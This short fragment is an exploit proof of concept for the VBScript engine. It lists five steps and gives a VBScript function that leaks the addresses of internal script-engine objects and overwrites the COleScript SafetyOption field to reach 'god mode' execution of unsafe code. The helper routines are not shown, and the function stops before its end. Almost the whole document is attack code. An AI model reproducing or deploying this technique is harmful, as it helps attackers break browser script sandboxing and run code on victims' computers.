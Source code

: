 #### exploit (POC)
1. Create a dummy VBScriptClass instance
2. Get class instance address
3. Leak CSession address from class instance
4. Leak COleScript address from CSession instance
5. Override COleScript SafetyOption

```vb
Function exploit (arg1)
            Dim addr
            Dim csession
            Dim olescript
            Dim mem
            ' Create a vbscript class instance
            Set dm = New Dummy
            ' Get address of the class instance
            addr = getAddr(arg1, dm)
            ' Leak CSession address from class instance
            mem = leakMem(arg1, addr + 8)
            csession = strToInt(Mid(mem, 3, 2))
            ' Leak COleScript address from CSession instance
            mem = leakMem(arg1, csession + 4)
            olescript = strToInt(Mid(mem, 1, 2))
            ' Overwrite SafetyOption in COleScript (e.g. god mode)
            ' e.g. changes it to 0x04 which is not in 0x0B mask
            overwrite arg1, olescript + &H174
```
